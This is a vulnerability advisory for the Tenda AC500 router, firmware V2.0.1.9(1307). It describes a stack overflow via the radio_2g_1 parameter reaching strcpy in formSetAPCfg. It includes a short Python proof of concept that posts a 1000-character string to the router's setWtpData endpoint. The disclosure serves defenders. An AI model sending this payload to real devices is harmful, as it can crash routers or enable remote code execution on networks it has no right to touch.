


# Tenda AC500 formSetAPCfg
### Overview
vendor: Tenda

product: AC500

version: V2.0.1.9(1307)

type: Stack Overflow
### Vulnerability Description
Tenda AC500 V2.0.1.9(1307) were discovered to contain a stack overflow via the radio_2g_1 parameter in the formSetAPCfg function.
### Vulnerability details
In function formSetAPCfg line 124, it reads in a user-provided parameter `radio_2g_1`, and the variable `src` is passed to the `strcpy` function without any length check, which may overflow the stack-based buffer `s_1`. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.




### POC
```python
import requests
ip = '192.168.0.1'
url = f'http://{ip}/goform/setWtpData'
payload = {
    "radio_2g_1": 'a' * 1000
}

res = requests.post(url=url, data=payload)
print(res.content)
```